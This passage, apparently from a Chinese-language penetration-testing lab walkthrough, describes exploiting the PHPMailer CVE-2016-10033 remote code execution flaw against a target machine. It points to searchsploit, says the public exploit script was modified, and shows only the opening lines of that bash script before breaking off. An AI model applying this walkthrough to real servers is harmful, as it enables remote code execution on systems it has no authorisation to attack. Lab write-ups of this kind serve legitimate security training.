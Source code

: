 # 漏洞利用

## phpmailer漏洞

而根据版本，恰好在给出的版本漏洞范围，"低于 5.2.18 的 PHPMailer 版本（2016 年 12 月发布）容易受到 [CVE-2016-10033]（https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-10033） 远程代码执行漏洞的影响"

对于该漏洞的分析，可以自行百度搜索，这里直接通过`searchsploit`搜索，然后查看其中的用法，或者点击给出的链接，其中包含多个漏洞解析及用法的。

图中标注的，是通过链接搜索的，对应着的漏洞编号

这个漏洞还可用于`wordpress`在进行忘记密码时的操作

![](./pic-1/20.jpg)

查看对应的脚本代码，这里是构建好的，执行脚本时，带着靶机地址和存在漏洞的页面即可

不过测试，发现这个不适合，查看代码，发现问题，因为查看前面文档中的安全问题，对应版本的链接时，说的是`\`具有安全隐患的，而这里的构造语句，并没有，所以不行，更改语句即可

这里提供更改后的代码，如下

```shell
#!/bin/bash
# CVE-2016-10033 exploit by opsxcq
# https://github.com/opsxcq/exploit-CVE-2016-10033

echo '[+] CVE-2016-10033 exploit by opsxcq'

if [ -z "$1" ]
then
    echo '[-] Please inform an host as parameter'
    exit -1
fi

host=$1

echo '[+] Exploiting '$host

```